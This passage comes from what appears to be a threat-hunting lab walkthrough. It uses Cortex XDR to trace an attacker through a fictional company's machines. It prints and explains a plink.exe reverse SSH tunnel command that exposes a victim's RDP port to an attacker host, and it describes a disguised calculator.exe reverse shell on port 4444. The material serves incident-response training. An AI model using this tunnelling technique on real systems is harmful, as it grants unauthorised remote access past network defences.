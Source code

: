 We could assume Vader is the root of our pain, but assumptions make a you-know-what out of U and ME. Perhaps Vader is the model employee who also works on automation projects, requiring access to the CI/CD pipeline tools at Whitehatfun!

Turns out Vader could not have been the culprit here because he didn't even know what Jenkins was and claimed to be "On Vacation destroying Jedi starting August 17th" (whatever that means). Lets return to the Incident section of Cortex and in the Alert Sources section click "See all" (Disregard the green line under XDR Agent as this is a copied image):
<img src = 'https://github.com/TechRinger/SecurED/blob/c78cf7037cf6a1a60e843c57d356dc1f975a1788/docs/images/Screenshot%202023-06-14%20at%2011.04.59%20AM.png'>
As you are, no doubt, accustomed to doing now, filter in the rows with Vader's computer by right clicking on the computer name next to one of his log entries and selecting "Show rows with":
<img src = 'https://github.com/TechRinger/SecurED/blob/d6f55c595d954668583eb85b1677a4100bb89e52/docs/images/vaderlogs.png'>
Let's right click on the most recent High severity alert in the filtered results and "Investigate Causality Chain". When the causality chain pops up something that may immediately stand out is that we see the same pesky, red encircled calulator.exe process we've seen in both the jenkins and DC boxes...we MUST be on the right track! Let's start on the right side again and see what info we can dig up with regards to that plink.exe process which is a command line interface for putty:
<img src = 'https://github.com/TechRinger/SecurED/blob/87cfbc7e1d5fb11f88f9f052228152b879ab12cd/docs/images/plink.png'>
Right out of the gate we notice a normal putty command that may have sketchy intentions. 

## A quick excerpt on SSH tunneling:
```bash
plink.exe -ssh -R
```
This instructs the local computer to set up an ssh tunnel using the (-R)emote option which instructs the target to configure itself in the manner configured next:
```bash
13389:localhost:3389 -P 22
```
This tells said target to install a rule in its forwarding table to take any traffic destined to itself and forward it on port 3389 through the ssh tunnel to the host that instantiated it
```bash
-l kali -pw password 172.16.160.100
```
This instructs putty to send "kali" as the (L)ogin user and "password" as the (-p[ass]w[ord]) to the host at IP 172.16.160.100.

Being that 3389 is the port RDP uses, it seems that whoever initiated this wanted to open up an RDP session to Vader, but because the attacker is unable to route to Vader's private address this would otherwise be impossible. However, since they had a shell connection via a reverse shell (shell-code protection alert on the port 4444 network connection) they were able to have Vader's machine make a connection outbound to them (172.16.160.100) via ssh and have GUI access, using RDP, from port forwarding rules pointing across the tunnel.

## Back to threat hunting
Clearly cmd.exe was the process that invoked plink and as we know now, "calculator.exe" is an executable that spawns an outbound network connection to 172.16.160.100 using port 4444 reverse shell which is why we always see cmd.exe start after it. Although cmd.exe is always after it, what the hacker does at each stop varies slightly (Vader downloaded plink.exe and built an ssh tunnel whereas Jenkins used powershell to change DC passwords and transfer files to the DC). 
